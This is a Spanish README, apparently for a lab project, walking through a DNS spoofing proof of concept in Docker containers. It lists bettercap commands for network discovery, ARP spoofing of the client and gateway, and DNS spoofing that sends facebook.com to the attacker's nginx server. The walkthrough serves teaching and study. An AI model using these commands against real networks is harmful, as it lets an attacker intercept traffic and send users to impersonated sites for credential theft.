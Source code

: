Para hacer el Proof of Concept del DNS Spoofing, creamos un entorno Docker con 3 máquinas:  

- Atacante: un kali linux con la herramienta bettercap, con el que haremos el ataque. Además, cuenta con un servidor nginx que es al que redigiremos a la víctima.  
- Cliente: la víctima de este ataque. Cuenta con herramientas como dig y un navegador web, lynx, para comprobar que el ataque ha funcionado.  
- Gateway: Simula el router de la red. Las otras dos máquinas la tienen como ruta default y simplemente redirige todo el tráfico que le llega.  

Levantamos el entorno con `sudo docker-compose up –d –build`  y comenzamos el ataque: 

- En una terminal abrimos un bash en el atacante con `sudo docker exec –it atacante bash`. En otra, nos conectamos al cliente con `sudo docker exec –it atacante bash`.   

- Comenzamos el ataque: en la máquina atacante ejecutamos `bettercap -iface eth0`. Seguidamente, ejecutamos `net.probe on` para detectar el resto de dispositivos en la red.  

- Para visualizar estos dispositivos, ejecutamos `net.show`. 

- Ahora haremos un arp spoofing. Para ello, ejecutamos:
```bash
set arp.spoof.targets 172.21.0.2, 172.21.0.100
arp.spoof on.  
```
- Como vemos, el cliente tiene la direccion MAC del atacante como si fuera la del gateway en su caché ARP. 

- Para efectuar el dns spoofing, ahora escribimos los comandos
```bash
set dns.spoof.domains facebook.com
set dns.spoof.address 172.21.0.101
dns.spoof on. 
```
- Al hacer dig facebook.com, el cliente encontrará la IP del atacante. 

- Y al usar el navegador, `lynx facebook.com`, verá la página web del atacante.  

- Para ambas situaciones, en intrerfaz de bettercap veremos lo siguiente: 

 

 
